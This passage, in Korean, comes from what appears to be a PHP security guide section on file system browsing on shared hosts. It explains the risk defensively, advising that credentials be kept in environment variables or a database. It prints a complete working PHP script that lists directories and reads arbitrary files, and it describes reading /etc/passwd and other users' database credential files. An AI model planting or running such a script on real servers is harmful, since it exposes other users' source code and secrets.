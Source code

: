 # 8.4 파일 시스템 브라우징
 공유 호스트에서 임의의 파일을 읽을 수 있는 것 외에 공격자는 파일 시스템을 탐색하는 스크립트를 작성할 수 있습니다. 보통 중요 데이터는 root 밑에 있지 않기 때문에 스크립트를 사용해서 소스 코드 위치를 발견할 수 있습니다.
 ```
 <pre>
 <?php
    if (isset($_GET['dir'])) {
        ls($_GET['dir']);
    } elseif (isset($_GET['file'])) {
        cat($_GET['file']);
    } else {
        ls('/');
    }

    function cat($file) {
        echo htmlentities(file_get_contents($file), ENT_QUOTES, 'UTF-8');
    }

    function ls($dir) {
        $handle = dir($dir);

        while ($filename = $handle->read()) {
            $size = filesize("$dir$filename");

            if (is_dir("$dir$filename")) {
                $type = 'dir';
                $filename .= '/';
            } else {
                $type = 'file';
            }

            if (is_readable("$dir$filename")) {
                $line = str_pad($size, 15);
                $line .= "<a href=\"{$_SERVER['PHP_SELF']}";
                $line .= "?$type=$dir$filename\">$filename</a>";
            } else {
                $line = str_pad($size, 15);
                $line .= $filename;
            }
            echo "$line\n";
        }
        $handle->close();
    }
 ?>
```
공격자는 먼저 서버에 있는 사용자 이름의 목록을 얻기위해 /etc/passwd 파일을 보거나 /home 내의 디렉터리 목록을 확인 할 수 있습니다. 사용자의 웹 서버 루트 밑에 있는 사용자의 소스 코드를 탐색하는 것은 대단한 일은 아니지만 해당 소스 코드의 위치를 알아내기 위해 include나 require문을 이용할 수 있습니다. 만약 /home/victim/html/admin.php 내에 include 로 db.inc가 되어있고, 해당 파일 안에 db 액세스 정보가 저장되어 있다면 보안적으로 치명적일 수 있습니다.
그래서 해당 데이터를 보호하기 위해서는 환경 변수 / 데이터베이스에 저장하는 방법을 선택해야합니다.
 